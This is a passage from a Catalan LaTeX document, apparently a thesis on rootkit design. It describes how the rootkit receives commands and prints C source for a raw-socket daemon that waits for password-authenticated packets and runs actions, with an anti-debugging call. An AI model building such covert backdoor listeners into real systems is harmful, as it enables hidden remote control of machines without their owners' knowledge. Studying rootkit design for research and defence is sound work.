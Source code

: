 Una descripció més conceptual del funcionament d'aquest protocol de comunicació, ha estat comentada en 
detall i amb l'ajuda d'esquemes en l'apartat de disseny del rootkit (POSAR REFERÈNCIA). Per al major 
aprofitament d'aquest punt, se'n recomana la lectura. \\

\subsection{Modes de comunicació}
Tal i com es pot veure en la figura \ref{fig:launcher_raw_daemon} , el rootkit en execució en un entorn 
privilegiat, es troba executant un while on cada paquet de xarxa que arriba a la màquina (independentment
de si el port de destí està obert o no), la funció recvfrom el rep. Com que la majoria de paquets que
rebrà una màquina, no seran paquets nostres, ens interessa que aquesta funció tingui la menor latencia 
possible per afectar el mínim possible a la màquina on corri el nostre rootkit. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
sock @PYbe[=] socket(AF_INET, SOCK_RAW, IPPROTO_TCP);
@PYay[if] (sock @PYbe[<] @PYag[0]) {
    debug(@PYaB["]@PYaB[Can't allocate raw socket]@PYao[\n]@PYaB["]);
    exit(@PYbe[-]@PYag[1]);
}

antidebug_obfuscate_analysis(@PYag[16]);

@PYay[while] (@PYag[1]) {
    size @PYbe[=] recvfrom(sock, @PYbe[&]p, @PYay[sizeof](p), @PYag[0], (@PYay[struct] sockaddr @PYbe[*]) @PYbe[&]raw, @PYbe[&]slen);
    @PYaE[// Si el tamany del paquet es el que toca]
    @PYay[if] (size @PYbe[=]@PYbe[=] @PYay[sizeof](@PYay[struct] packet)) {
        @PYaE[// I el password és correcte]
        @PYay[if] (@PYbe[!]memcmp(CLIENTAUTH, p.action.pass, @PYag[20])) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet d'autenticat (action: %d)]@PYao[\n]@PYaB["], p.action.action);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
        } @PYay[else] @PYay[if] (@PYbe[!]memcmp(CHECKSTR, p.action.pass, @PYag[20]) @PYbe[&]@PYbe[&] (p.action.action @PYbe[=]@PYbe[=] CHECK @PYbe[|]@PYbe[|] p.action.action @PYbe[=]@PYbe[=] REVCHECK)) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet de CHECK]@PYao[\n]@PYaB["]);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
		}
    }
}
\end{Verbatim}
    \caption{launcher.c::raw\_daemon()}
    \label{fig:launcher_raw_daemon}
\end{figure}

